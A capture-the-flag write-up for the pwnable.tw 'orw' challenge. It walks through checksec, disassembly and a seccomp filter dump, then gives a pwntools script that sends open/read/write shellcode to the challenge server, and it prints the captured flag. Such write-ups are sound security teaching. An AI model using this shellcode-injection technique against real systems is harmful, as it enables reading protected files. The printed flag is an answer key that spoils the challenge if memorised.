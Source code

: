 # [orw.md](orw.md)

# ORW write-up

Starting this challenge I ran `pwn checksec` on the program to get the info on the security measures for the binary:

```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX disabled
PIE:      No PIE (0x8048000)
RWX:      Has RWX segments
```

After running the binary I quickly realized these security measures didn’t matter. Running the binary in GDB gave me the functionality of the program: `disass main`

```
0x08048548 <+0>:     lea    ecx,[esp+0x4]
0x0804854c <+4>:     and    esp,0xfffffff0
0x0804854f <+7>:     push   DWORD PTR [ecx-0x4]
0x08048552 <+10>:    push   ebp
0x08048553 <+11>:    mov    ebp,esp
0x08048555 <+13>:    push   ecx
0x08048556 <+14>:    sub    esp,0x4
0x08048559 <+17>:    call   0x80484cb <orw_seccomp>
0x0804855e <+22>:    sub    esp,0xc
0x08048561 <+25>:    push   0x80486a0
0x08048566 <+30>:    call   0x8048380 <printf@plt>
0x0804856b <+35>:    add    esp,0x10
0x0804856e <+38>:    sub    esp,0x4
0x08048571 <+41>:    push   0xc8
0x08048576 <+46>:    push   0x804a060
0x0804857b <+51>:    push   0x0
0x0804857d <+53>:    call   0x8048370 <read@plt>
0x08048582 <+58>:    add    esp,0x10
0x08048585 <+61>:    mov    eax,0x804a060
0x0804858a <+66>:    call   eax
0x0804858c <+68>:    mov    eax,0x0
0x08048591 <+73>:    mov    ecx,DWORD PTR [ebp-0x4]
0x08048594 <+76>:    leave  
0x08048595 <+77>:    lea    esp,[ecx-0x4]
0x08048598 <+80>:    ret 
```

Reading this I found that the program quite literally saved your input into memory then called that section of memory. There is also a seccomp function called as well. Seccomp I learned is a function filtering solution that whitelists only certain functions for use within the program. There’s a special tool called `seccomp-tools` that allows you to see what functions are allowed in the program.

`seccomp-tools dump ./orw`

```
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x09 0x40000003  if (A != ARCH_I386) goto 0011
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x15 0x07 0x00 0x000000ad  if (A == rt_sigreturn) goto 0011
 0004: 0x15 0x06 0x00 0x00000077  if (A == sigreturn) goto 0011
 0005: 0x15 0x05 0x00 0x000000fc  if (A == exit_group) goto 0011
 0006: 0x15 0x04 0x00 0x00000001  if (A == exit) goto 0011
 0007: 0x15 0x03 0x00 0x00000005  if (A == open) goto 0011
 0008: 0x15 0x02 0x00 0x00000003  if (A == read) goto 0011
 0009: 0x15 0x01 0x00 0x00000004  if (A == write) goto 0011
 0010: 0x06 0x00 0x00 0x00050026  return ERRNO(38)
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
```

This showed me that I needed to use open/read/write in my shellcode to run the program.

 So I tried running some shellcode only to find out that the binary they gave me was compiled so that the shellcode was copied into non-executable memory so whenever it gets called it segfaults. I knew that it had to be able to run on the server so I just created some shellcode that would read the contents of `/home/orw/flag` into some empty memory then write 40 bytes from the buffer to `stdout` so I could read it. After a ton of tweaking of the shellcode, I was able to get a response from the server with the flag.

### Program:

```
#! /usr/bin/env python
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']
shellcode = b"j\x05Xhag\x00\x00hw/flhe/orh/hom1\xc9\x99T[\xcd\x80j\x03Xj\x03[h\x00\xa5\x04\x08Yj2Z\xcd\x80j\x04Xj\x01[h\x00\xa5\x04\x08Yj2Z\xcd\x80"
p = remote("chall.pwnable.tw", 10001)
p.recv()
p.sendline(shellcode)
p.interactive()
```

In the interactive I was able to get the flag:

```
[+] Opening connection to chall.pwnable.tw on port 10001: Done
[*] Switching to interactive mode
FLAG{sh3llc0ding_w1th_op3n_r34d_writ3}
\x00\x00\x00\x00\x00\x00[*] Got EOF while reading in interactive
```